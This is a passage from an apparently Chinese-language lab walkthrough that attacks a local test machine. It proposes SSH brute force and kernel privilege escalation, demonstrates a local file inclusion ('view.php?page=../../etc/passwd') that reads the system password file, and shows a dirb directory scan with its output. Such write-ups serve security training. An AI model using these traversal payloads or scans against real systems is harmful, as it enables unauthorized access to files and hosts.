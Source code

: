 ```
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTK4kvVx4tr7fpiclnV6ic4qaVfmSzpQw8laNK9Aic5zl5pHFhS88vgEOKlA/640?wx_fmt=png)

可能的思路：ssh 爆破, web 漏洞, Linux 内核提权

![](https://mmbiz.qpic.cn/mmbiz_png/165jdibJnGcUAxqeh4b1mTZjIzBhOXg6t5AmDhsbbz9lACibgYGLvRc1EUqxXTUGePTNRouZsJrbwUdYGD4TdOWw/640?wx_fmt=png)

**1.3、访问 http 服务**

访问 80 端口

http://192.168.0.110/

找到以下页面  

http://192.168.0.110/view.php?page=tools.html

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKuOUe29ibrRTSN6s50TM0p9WV37O8ozFYhoc7UZNOncxn5G2s8DpYPnw/640?wx_fmt=png)

看到 page=tools.html, 想到尝试文件包含, 发现可以查看 / etc/passwd, 但尝试利用 php 伪协议读取 view.php 源码失败

http://192.168.0.110/view.php?page=../../etc/passwd

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKT5eA2pOB8pDKicxIwicYFTpHWy8D4E9vZ4KQicKouBuZqazBD2areWIVg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/165jdibJnGcUAxqeh4b1mTZjIzBhOXg6t5AmDhsbbz9lACibgYGLvRc1EUqxXTUGePTNRouZsJrbwUdYGD4TdOWw/640?wx_fmt=png)

1.4、扫目录

dirb 扫描目录

```
dirb http://192.168.0.110/ /usr/share/dirb/wordlists/big.txt -w
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ08weBV2oVrkiaAZZH416stTKBws5ESAouicu54Kx9skT4zP590dAz5AQcMh6IMgcTU3iclACW2tkoJiag/640?wx_fmt=png)

```
/LICENSE
/index
/dbadmin/
/cgi-bin/
/tools
/view
/package
/server-status
/css/
/css/creative
/img/
/img/header
/img/portfolio/
/img/portfolio/thumbnails/
/img/portfolio/thumbnails/1
/img/portfolio/thumbnails/2
/img/portfolio/thumbnails/3
/img/portfolio/thumbnails/4
/img/portfolio/thumbnails/5
/img/portfolio/thumbnails/6
/js/
/js/creative
/vendor/
/vendor/jquery/
/vendor/jquery/jquery
```
